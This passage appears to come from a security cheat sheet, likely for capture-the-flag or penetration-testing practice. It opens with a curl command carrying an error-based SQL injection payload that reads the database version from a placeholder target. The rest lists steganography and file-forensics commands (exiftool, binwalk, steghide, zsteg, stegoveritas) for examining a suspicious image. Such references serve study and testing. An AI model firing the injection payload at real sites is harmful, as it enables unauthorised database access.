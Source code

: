 ### Error-Based
Test for error-based SQL injection.
```bash
curl -s "http://target.com/page.php?id=1' AND (SELECT 1 FROM (SELECT COUNT(*),CONCAT(VERSION(),FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.TABLES GROUP BY x)a) -- -"
```

# Steganography & File Forensics

### Check File Metadata with Exiftool
Examine metadata of a file.
```bash
exiftool suspicious_image.jpg
```

### Check for Hidden Data with Binwalk
Scan a file for embedded files and executable code.
```bash
binwalk suspicious_image.jpg
```

### Extract Hidden Data with Binwalk
Extract embedded files from a file.
```bash
binwalk -e suspicious_image.jpg
```

### Check for Steganography with Steghide (No Password)
Attempt to extract data using Steghide without a password.
```bash
steghide extract -sf suspicious_image.jpg
```

### Extract with Steghide and Password
Attempt to extract data using Steghide with a password.
```bash
steghide extract -sf suspicious_image.jpg -p password
```

### Check for Least Significant Bit (LSB) Steganography
Analyze image files for LSB steganography.
```bash
zsteg suspicious_image.png
```

### Check with Stegoveritas (All-in-One)
Use Stegoveritas for comprehensive steganography analysis.
```bash
stegoveritas suspicious_image.jpg
```
